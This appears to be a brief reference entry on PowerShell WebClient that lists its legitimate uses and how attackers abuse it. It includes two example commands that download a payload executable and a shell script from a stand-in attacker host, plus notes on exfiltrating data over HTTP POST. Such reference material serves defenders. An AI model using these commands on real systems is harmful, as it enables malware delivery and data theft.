 # PowerShell WebClient
## What is it?
*PowerShell provides built-in web client capabilities that allow scripts to download and upload files over HTTP/HTTPS.*

## Legitimate Use
- *Automating file downloads from trusted internal servers.*
- *Retrieving updates, configurations, or scripts in enterprise environments.*
- *Managing remote systems using PowerShell scripting.*

## How to abuse it
- *Downloading malicious payloads directly from an attacker’s web server.*
- *Exfiltrating sensitive data using HTTP POST requests.*
- *Evading detection by leveraging encrypted HTTPS traffic.*

## Example Attacks
```
$client = New-Object System.Net.WebClient; $client.DownloadFile("http://attacker.com/payload.exe", "C:\Users\Public\payload.exe")

Invoke-WebRequest -Uri "http://attacker.com/shell.ps1" -OutFile "C:\Windows\Temp\shell.ps1"
```
